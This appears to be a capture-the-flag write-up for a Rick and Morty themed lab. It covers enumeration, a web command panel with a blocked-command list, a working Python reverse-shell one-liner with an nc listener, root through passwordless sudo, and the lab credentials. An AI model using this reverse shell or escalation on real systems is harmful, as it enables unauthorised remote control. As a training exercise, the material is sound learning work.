







# Scanning & Enumeration
## Nmap


## Website Comments


Username for `login.php`

## Dirbuster


## Robots.txt
Wubbalubbadubdub (cred?)
Password for `login.php`

## Portal.php


### Source code comment
```html
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

Decoded Base64:

```html
VmpGU1NtVkdTWGxTYkdScFUwWktjRlZyVmt0VE1WWnhVMjA1VG1KSGVIbFhhMXBoVlZaV1ZVMUVhejA=
```

**Nothing.**

### Command Panel

We can use terminal commands. `ls` shows files. `pwd` shows we are in the root directory of the Apache.

#### Available commands

`cat`, `more`, `tail` don't work. `less` does.

```bash
less portal.php
```

And we can see the blocked commands with page source:

```html
// Cant use cat
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

### Clue.txt
```txt
Look around the file system for the other ingredient.
```

### Sup3rS3cretPickl3Ingred.txt
```txt
mr. meeseek hair
```

## Denied access to other pages


Need other creds.

## Sudo -l (www-data)


Since we have `sudo` permission without password, we can `less`

# Exploitation
## Reverse-Shell


There's `python3`.

```bash
nc -lvp 8888 # Attacker
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.39.178",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' # Victim Command Panel
```

And we're in.

# Post-Exploitation
Since we are `www-data` and it has `(ALL) NOPASSWD: ALL`, we can run `sudo su -` to be `root`.

# Discoveries
## Technologies
- Ubuntu (2.6?)
- Apache 2.4.18
- OpenSSH 7.2p2

## Creds
- Login.php
	- Username: R1ckRul3s
	- Password: Wubbalubbadubdub

